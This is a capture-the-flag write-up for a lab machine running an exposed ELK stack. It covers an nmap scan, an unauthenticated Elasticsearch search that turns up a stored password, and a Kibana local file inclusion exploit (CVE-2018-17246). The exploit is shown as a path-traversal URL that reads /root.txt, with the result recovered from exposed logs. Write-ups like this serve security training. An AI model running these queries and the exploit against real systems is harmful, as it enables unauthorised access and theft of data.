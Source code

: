 # [Day 24] Elf Stalk

## Instructions

McDatabaseAdmin has been trying out some new storage technology and came across the ELK stack(consisting of Elastic Search, Kibana and Log Stash). 

The Christmas Monster found this insecurely configured instance and locked McDatabaseAdmin out of it. Can McSkidy help to retrieve the lost data?

While this task does not have supporting material, here is a general approach on how to go about this challenge:

* scan the machine to look for open ports(specific to services running as well)
* as with any database enumeration, check if the database requires authentication. If not, enumerate the database to check the tables and records
* for other open ports, identify misconfigurations or public exploits based on version numbers

The machine may take up to 5 minutes to boot.

## Nmap Scan

Let's start with a nmap scan:

~~~
$ sudo nmap -sS -p- -A 10.10.198.16

...[SNIP]...

PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 0a:ee:6d:36:10:72:ce:f0:ef:40:9e:63:52:a9:86:44 (RSA)
|   256 11:6e:8f:7f:15:66:e3:03:b1:c4:55:f8:e7:bb:59:23 (ECDSA)
|_  256 b3:12:7a:7f:ac:89:72:c9:25:88:96:20:ad:c7:5b:4a (ED25519)
111/tcp  open  rpcbind   2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     Date: Mon, 04 May 2020 19:44:01 GMT
|     Connection: close
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     cache-control: no-cache
|     content-type: text/html; charset=utf-8
|     content-length: 217
|     accept-ranges: bytes
|     Date: Mon, 04 May 2020 19:44:00 GMT
|     Connection: close
|     <script>var hashRoute = '/app/kibana';
|     defaultRoute = '/app/kibana';
|     hash = window.location.hash;
|     (hash.length) {
|     window.location = hashRoute + hash;
|     else {
|     window.location = defaultRoute;
|     }</script>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     Date: Mon, 04 May 2020 19:44:00 GMT
|     Connection: close
|_    {"statusCode":404,"error":"Not Found"}
8000/tcp open  http      SimpleHTTPServer 0.6 (Python 3.7.4)
|_http-server-header: SimpleHTTP/0.6 Python/3.7.4
|_http-title: Directory listing for /
9200/tcp open  http      Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
9300/tcp open  vrace?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|_    This is not an HTTP port

...[SNIP]...
~~~

A brief summary of the interesting services:
* **5601**: Kibana
* **8000**: Content of `kibana-log.txt`
* **9200**: ElasticSearch

## #1 - Find the password in the database

*Hint: how do you search for strings in an elasticsearch database*

Searching for the ElasticSearch RestAPI, I found [this link](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-search.html) which explains how to request the ElasticSearch database.

Let's search for the string `password`:

~~~
$ curl -X GET "10.10.139.42:9200/_search?q=password&pretty"
{
  "took" : 680,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
        }
      }
    ]
  }
}
~~~

Answer: `9Qs58Ol3AXkMWLxiEyUyyf`

## #2 - Read the contents of the /root.txt file

*Hint: use the 3rd open port and a Kibana public vulnerability*

### Identify service and version

Driven by the hint, the 3rd open port is 5601, which appears to be Kibana.

~~~
$ curl -s http://10.10.139.42:5601
<script>var hashRoute = '/app/kibana';
var defaultRoute = '/app/kibana';

var hash = window.location.hash;
if (hash.length) {
  window.location = hashRoute + hash;
} else {
  window.location = defaultRoute;
}</script>
~~~

Connecting to http://10.10.139.42:5601 will open Kibana. From here, go to the Management console and you will see that the version is `6.4.2`:

!["kibana version"](files/kibana-version.png)

### Find an exploit

At the time of this writing, the current version of Kibana is 7.6.2, which leaves hopes to find a working exploit. Googling the terms `kibana` and `6.4.2` quickly leads to a vulnerability referenced as CVE-2018-17246.

* https://www.cvedetails.com/vulnerability-list/vendor_id-13554/product_id-31867/version_id-317497/Elasticsearch-Kibana-6.4.2.html
* https://github.com/mpgn/CVE-2018-17246
* https://www.elastic.co/blog/kibana-local-file-inclusion-flaw-cve-2018-17246
* https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

### Exploit

The exploit involves a Local File Inclusion (LFI) to inject a reverse shell. As it seems there is nowhere on the site where we can upload files, we'll try to use the exploit to read the `root.txt` file directly. Let's connect with the following URL, which contains the payload:

http://10.10.139.42:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../.../../../../root.txt

The website becomes completely unresponsive. I tried to capture it with Burp Suite to see what happens but was not able to capture a response. Only the request seems to be sent.

### View logs

Now, as explained [here](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/), *"We began the test and observed that many inputs did not result in response until we reached timeout. This is abnormal, so we examined the logs."*. 

Now remember that we can access the logs over port 8000/tcp. Let's see what we collected:

~~~
$ curl -s http://10.10.139.42:8000/kibana-log.txt | grep "root.txt"
{"type":"error","@timestamp":"2020-05-05T11:39:43Z","tags":["warning","process"],"pid":2696,"level":"error","error":{"message":"ReferenceError: someELKfun is not defined\n    at Object.<anonymous> (/root.txt:1:6)\n    at Module._compile (module.js:652:30)\n    at loader (/usr/share/kibana/node_modules/babel-register/lib/node.js:144:5)\n    at Object.require.extensions.(anonymous function) [as .js] (/usr/share/kibana/node_modules/babel-register/lib/node.js:154:
...[SNIP]...
~~~

The content of the `root.txt` file appears in the error message: `ReferenceError: someELKfun is not defined...`.

Answer: `someELKfun`.
